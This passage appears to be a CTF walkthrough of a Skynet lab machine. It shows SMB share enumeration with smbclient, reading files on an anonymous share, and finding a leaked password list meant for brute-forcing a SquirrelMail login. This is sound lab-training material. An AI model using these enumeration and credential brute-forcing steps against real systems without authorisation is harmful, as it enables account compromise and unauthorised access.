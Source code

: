 But we need a username & password to execute.

From the question, we know that there is a user `miles`.
We can bruteforce `/squirrelmail` (Maybe we could bruteforce the pop3 server instead ?)

Seems like bruteforcing the pop3 server doesn't work. Doesn't accept plaintext.
Takes forever to bruteforce the squirrelmail page.. Each request takes a long time...

Let's check out the samba server `smbclient -L $IP` :

```
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

We can connect to the anonymous share `smbclient //$IP/anonymous`. We find the files :
```
attention.txt                       N      163  Wed Sep 18 03:04:59 2019
  logs                                D        0  Wed Sep 18 04:42:16 2019
  books                               D        0  Wed Sep 18 04:40:06 2019
```

`attention.txt` contains :
```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

We can also simply use the file explorer qith the path `smb://10.10.156.140/anonymous` and reach the share via GUI.
In `/logs/log1.txt` we find :
```
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
```
